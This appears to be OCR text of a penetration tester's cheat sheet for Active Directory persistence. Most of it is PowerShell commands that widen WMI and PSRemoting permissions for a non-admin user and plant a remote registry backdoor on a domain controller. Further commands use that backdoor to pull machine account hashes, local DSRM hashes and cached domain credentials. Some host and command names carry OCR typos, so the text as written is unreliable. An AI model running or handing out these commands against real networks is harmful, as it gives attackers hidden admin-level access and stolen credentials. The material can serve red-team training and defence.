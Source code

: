 **List WMI Information from DC**\
Get-WmiObject -class win32\_operatingsystem -computername dcname.dc.local\
Execute commands via WMI now possible

**Modify WMI ACL to allow non-admin users access to securable objects**\
On Local machine for user1 on all WMI namespaces and DCOM\
Set-RemoteWMI -Username user1 -verbose

**On remote machine for user1 only for root\cimv2 namespace without explicit credentials**\
Set-RemoteWMI -Username user1 -computername hostname -namespace 'root\cimv2' -verbose

**On remote machine with explicit credentials. Only root\cimv2 and nested namespaces**\
Set-RemoteWMI -Username user1 -computername hostname -credential administrator -namespace 'root\cimv2' -verbose

**On remote machine remove permissions**\
Set-RemoteWMI -Username user1 -computername hostname -namespace 'root\cimv2' -remove -verbose

Invoke-Command -scriptblock{whoami} -computername dchost.dc.local => Does not work, because no DA privs, but only WMI Privs

**PSRemoting: On local machine for user1**\
Set-RemotePSRemoting -username user1 -verbose

**PSRemoting: On remote machine for user1 without credentials**\
Set-RemotePSRemoting -username user1 -computername targethost.dom.local -verbose\


Invoke-Command -scriptblock{whoami} -computername dchost.dc.local => Works

**PSRemoting: On remote machine remove user1** \
Set-RemotePSRemoting -username user1 -computername argethost.dom.local -remove

**Using DAMP toolkit:**\
**1.Remote Registry: Start using DAMP with domain admin privs on remote host**\
Add-RemoteRegBackdoor -computername dchostname -Trustee username -verbose

. .\RemoteHashRetrieval.ps1 (maybe replace $IV with $InitV) when there are errors with the following commands

**2.Remote Registry: Retrieve machine account hash, as regular user**\
Get-RemoteMachineAccountHash -computername dcname -verbose

**2.Remote Registry: Retrieve local account hash, as regular user**\
Get-RemoteLocaltAccountHash -computername dcname -verbose

\=> DSRM account on DC

**2.Remote Registry: Retrieve domain cached credentials, as regular user**\
Get-RemoteCachedCredential -computername dcnmae -verbose



